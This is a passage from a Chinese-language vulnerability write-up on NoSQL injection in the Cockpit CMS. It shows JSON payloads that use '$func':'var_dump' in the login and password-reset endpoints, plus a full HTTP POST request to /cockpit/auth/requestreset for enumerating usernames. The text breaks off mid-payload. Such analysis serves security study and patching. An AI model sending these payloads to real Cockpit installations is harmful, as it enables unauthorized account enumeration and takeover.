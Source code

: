 ```
{
    "auth":{
        "user":{
            "$func":"var_dump"
        },
        "password":[
            0
        ]
    },
    "csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"
}
```

https://github.com/agentejo/cockpit/blob/0d01412e1209468c23f0f4c49eccf959059e415e/lib/MongoLite/Database.php#L432

代码👆

之后的漏洞，大同小异，都是因为过滤出现问题导致的Nosql注入，直接开始搬运。

## /auth/requestreset

在忘记登录密码的情况下，Cockpit提供了密码重置功能，相关逻辑在`modules/Cockpit/Controller/Auth.php`中，和登录逻辑一样，传入`$this->app->storage->findOne()`进行查询的参数`$query`完全没有经过处理：

[![img](nosql注入.assets/t017786a70a1d30b516.png)](https://p1.ssl.qhimg.com/t017786a70a1d30b516.png)

在这里，我们可以用相同的方法来获取用户名：

```
POST /cockpit/auth/requestreset HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://your-ip:8000/cockpit/auth/forgotpassword
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 33
Connection: close
Cookie: 8071dec2be26139e39a170762581c00f=e0050af94b1d4e88d31e7695c2b5142a

{
    "user":{
        "$func":"var_dump"
    }
```